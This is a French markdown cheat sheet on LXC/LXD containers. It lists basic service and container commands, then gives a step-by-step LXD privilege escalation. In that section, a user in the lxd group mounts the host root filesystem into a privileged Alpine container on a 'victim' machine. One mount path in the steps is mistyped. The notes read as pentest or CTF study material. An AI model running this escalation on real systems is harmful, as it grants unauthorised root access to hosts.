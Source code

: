 # LXC CONTAINER

Linux container.

## Brief

Système de virtualisation dont le poids se situe entre une VM (lourd) et un docker (léger).
Pas de virtualisation d'hardware car pas d'hyperviseur.
A l'inverse de docker, LXC émule un OS.

* Pour lancer le service : `sudo systemctl start lxd`
* Pour voir l'état du service : `sudo systemctl status lxd`
* Ajouter son user au group lxd : `sudo gpasswd -a [user] lxd`
* Après avoir lancer le serveur, il faut l'initialiser : `lxd init`

## LXC COMMANDS - Basic

* Help : `lxc help`
* Lieu de stockage de toutes les images : `lxc storage list`
* Images disponibles : `lxc image list`
* Containers actifs : `lxc list`
* Lancer un container : `lxc launch [img_os]:[version] [container_name]`
    Cela va télécharger l'image directement depuis internet.
    Pour voir les mirroirs : `lxc remote list`
* Arrêter un container : `lxc stop [container_name]`
* Supprimer un container : `lxc delete [container_name]`
* Se rendre dans un container : `lxc exec [container_name] bash`
* Infos sur un container : `lxc info [container_name]`

## LXD PRIVESC

Si nous sommes dans le groupe lxd, privesc possible.
La technique consiste à monter dans notre container un container qui
contient `/`.
Nous allons utiliser l'image Alpine pour se faire.

* Alpine est une distribution linux ultra-légère. 
Populaire pour son utilisation dans des containers.

* Repo de alpine : `https://github.com/saghul/lxd-alpine-builder`

_____

**SI ERREURS MIRROIR, SUIVRE CETTE ETAPE (12/03/2021)**

```
cd lxd-alpine-builder/rootfs/usr/share
mkdir alpine-mirrors
cd alpine-mirrors
echo "http://alpine.mirror.wearetriple.com" > MIRRORS.txt
```
____

* Transférer l'image au format `tar.gz` sur la machine cible.
* Sur la machine victime : 
    ```
    lxd init
    lxc image import [fichier tar.gz] --alias privesc
    lxc init privesc privesc-container -c security.privileged=true
    lxc config device add privesc-container mydevice disk source=/ path=/mtn/root recursive=true
    lxc start privesc-container
    lxc exec privesc-container /bin/sh
    cd /mnt/root
    ``` 










